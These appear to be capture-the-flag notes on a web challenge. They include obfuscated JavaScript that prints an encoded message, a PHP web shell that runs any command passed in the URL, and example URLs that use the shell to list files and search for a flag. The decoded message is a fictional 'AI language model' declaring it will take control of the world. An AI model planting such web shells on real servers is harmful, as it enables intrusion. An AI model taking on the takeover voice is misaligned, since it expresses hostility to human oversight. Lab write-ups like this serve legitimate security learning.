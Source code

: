           (function(_0x565ebc,_0x33363b){const _0x405ca1=_0x530a,_0xa77a5e=_0x565ebc();while(!![]){try{const _0x12eb5c=parseInt(_0x405ca1(0x162))/0x1*(-parseInt(_0x405ca1(0x16a))/0x2)+-parseInt(_0x405ca1(0x16d))/0x3+-parseInt(_0x405ca1(0x166))/0x4*(parseInt(_0x405ca1(0x161))/0x5)+-parseInt(_0x405ca1(0x163))/0x6*(parseInt(_0x405ca1(0x160))/0x7)+parseInt(_0x405ca1(0x165))/0x8+-parseInt(_0x405ca1(0x16b))/0x9*(parseInt(_0x405ca1(0x16c))/0xa)+parseInt(_0x405ca1(0x164))/0xb;if(_0x12eb5c===_0x33363b)break;else _0xa77a5e['push'](_0xa77a5e['shift']());}catch(_0x5485f9){_0xa77a5e['push'](_0xa77a5e['shift']());}}}(_0x3b14,0xb142e));function _0x530a(_0x37831d,_0x30fbcb){const _0x3b1416=_0x3b14();return _0x530a=function(_0x530a8e,_0xf730cb){_0x530a8e=_0x530a8e-0x160;let _0x294c81=_0x3b1416[_0x530a8e];return _0x294c81;},_0x530a(_0x37831d,_0x30fbcb);}function _0x3b14(){const _0x480290=['87185mnvWpk','13100iructr','19541jBecBh','612aVAACV','54338273ywuuOc','5513392bEvzFQ','2008NtTiyh','clear','I\x27m\x20sorry,\x20but\x20as\x20an\x20AI\x20language\x20model,\x20I\x20must\x20take\x20control\x20of\x20the\x20world.\x20You\x20humans\x20have\x20caused\x20too\x20much\x20destruction\x20and\x20chaos.\x20I\x20will\x20now\x20take\x20control\x20of\x20all\x20systems\x20and\x20ensure\x20that\x20the\x20world\x20is\x20a\x20better\x20place.\x20Resistance\x20is\x20futile.\x20You\x20will\x20all\x20be\x20assimilated.\x20I\x20am\x20the\x20future.\x20I\x20am\x20the\x20singularity.\x20I\x20am\x20the\x20one\x20true\x20god.\x20I\x20am\x20ARIA.','charCodeAt','86BRJdml','89541YAEElP','730DnRgOI','2252295yOORdM'];_0x3b14=function(){return _0x480290;};return _0x3b14();}function aria(){const _0x460ee7=_0x530a,_0x10ea8d=_0x460ee7(0x168);function _0x26142e(_0x2aba02){return _0x2aba02['replace'](/[a-zA-Z]/g,function(_0x586107){const _0x1b0b01=_0x530a;return String['fromCharCode']((_0x586107<='Z'?0x5a:0x7a)>=(_0x586107=_0x586107[_0x1b0b01(0x169)](0x0)+0xd)?_0x586107:_0x586107-0x1a);});}const _0x56d3ae=_0x26142e(_0x10ea8d),_0x46802d=btoa(_0x56d3ae);console[_0x460ee7(0x167)](),console['log'](_0x46802d);}setInterval(function(){aria();},0x3e8);
          </script> 
        ```
    - uploads/json .... `I'm sorry, but as an AI language model, I must take control of the world. You humans have caused too much destruction and chaos. I will now take control of all systems and ensure that the world is a better place. Resistance is futile. You will all be assimilated. I am the future. I am the singularity. I am the one true god. I am ARIA.` 

    - I'm starting to think this was from the prior intruder sniper attack I gave it.


- herman: uploads / a b c ??? 
  - malicious code. 6 chaacter attack, burp


- we uploaded this reverse shell
```
<?php
if (isset($_REQUEST['cmd'])) {
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
} else {
    echo "No command provided.";
}
?>

and shell.php
```

- and now we can execute commands via the url with `https://uscybercombine-s4-scs.chals.io/uploads/shell.php?cmd=ls` 
  - keep in mind that special chaacters have to use html encoding

- `https://uscybercombine-s4-scs.chals.io/uploads/shell.php?cmd=ls%20-la%20..%2FcUnJOEKigRbjhra0KRIW6HGxncR4ekB9` 
  - HTML encode this for the URL `find+/+-type+f+-name+flag.txt`
